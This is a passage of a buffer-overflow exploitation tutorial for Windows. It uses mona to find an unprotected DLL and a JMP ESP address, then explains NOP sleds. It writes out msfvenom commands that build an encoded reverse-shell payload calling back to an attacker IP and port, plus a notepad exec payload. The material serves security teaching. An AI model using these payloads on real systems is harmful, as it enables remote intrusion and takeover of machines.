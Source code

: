 Command:

!mona modules

It will list all the dll files currently in use and their safety flags.

![](https://www.cobalt.io/hs-fs/hubfs/Screenshot%202023-04-17%20at%201.33.31%20PM.png?width=693\&height=363\&name=Screenshot%202023-04-17%20at%201.33.31%20PM.png)

4\)Then we will choose R.dll file, which is used by our vulnerable application and doesn't have any protection.

**Finding OP code for JMP ESP**

Now we will find the address pushed on the stack when R.dll is called in the application. For that, we have to run the following command:

!mona find -s "\xff\xe4" -m R.dll

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

![](https://www.cobalt.io/hs-fs/hubfs/Screenshot%202023-04-17%20at%201.33.53%20PM.png?width=706\&height=231\&name=Screenshot%202023-04-17%20at%201.33.53%20PM.png)

#### Generate payload (x86/shikata\_ga\_nai )

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.8 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -e x86/shikata_ga_nai -f c
msfvenom -a x86 — platform Windows -p windows/exec cmd=notepad.exe -e x86/alpha_upper -b ‘\x00’ -f c
```

**What is NOP sled characters?**

A **NOP (No Operation)** sled is a sequence of **NOP** instructions in machine code that does nothing when executed. In a buffer overflow attack, a **NOP** sled is a filler between the injected malicious payload and the return address the attacker wants to overwrite in the vulnerable program's stack.

The purpose of an **NOP** sled is to provide a predictable and controllable path for the program's execution to reach the injected malicious payload. When a buffer overflow occurs, the excess data written to the buffer can overwrite adjacent data on the stack, including the return address. The attacker can use an **NOP** sled to increase the chances that the overwritten return address will point to the start of the **NOP** sled, leading to the execution of the malicious payload.

Here are some examples of **NOP** sleds for different architectures:

**x86 (32-bit):** The x86 architecture uses the 0x90 instruction to represent a NOP. A NOP sled for x86 can be represented as a sequence of 0x90 instructions.
